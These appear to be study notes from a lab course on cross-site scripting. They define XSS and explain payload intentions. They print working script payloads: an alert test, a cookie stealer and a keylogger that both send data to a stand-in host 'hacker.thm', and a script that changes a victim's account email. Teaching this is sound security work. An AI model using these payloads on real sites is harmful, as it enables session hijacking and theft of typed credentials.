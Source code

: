 # Cross site Scripting (XSS)

### **Cross-site Scripting (XSS)** <a href="#id-25kqlw4gpf35" id="id-25kqlw4gpf35"></a>

* Classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.
* These vulnerabilities are extremely common.

### **XSS Payloads** <a href="#x85ub9nm1tiu" id="x85ub9nm1tiu"></a>

* Payload is the JavaScript code to be executed on the target computer.
* There are two parts to the payload:
  * The intention is what you wish the JavaScript to actually do.
  * The modification is the changes to the code we need to make it execute as every scenario is different.

#### **XSS Intention Examples** <a href="#wd8jldynm8b1" id="wd8jldynm8b1"></a>

**Proof Of Concept**

* The simplest of payloads where all is required is to demonstrate that XSS can be achieved on a website.
  * Often done by causing an alert box to pop up on the page with a string of text: \<script>alert('XSS');\</script>.

**Session Stealing**

* Details of a user's session, such as login tokens, are often kept in cookies on the target machine.
* Use JavaScript to take the target's cookie, base64 encodes the cookie to ensure successful transmission and then post it to a website under the hacker's control to be logged:
  * \<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));\</script>
* Once the hacker has these cookies they can take over the target's session and be logged as that user.

**Key Logger**

* The following code acts as a key logger: \<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}\</script>
* This means anything typed on the webpage will be forwarded to a website under the hacker's control.
* This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

**Business Logic**

* This payload is a lot more specific than the other examples.
* This would calli a particular network resource or JavaScript function.
  * For example, imagine a JavaScript function for changing the user's email address called user.changeEmail().
    * The payload could look like this: \<script>user.changeEmail('attacker@hacker.thm');\</script>.
  * Now that the email address for the account has changed, the attacker may perform a reset password attack.

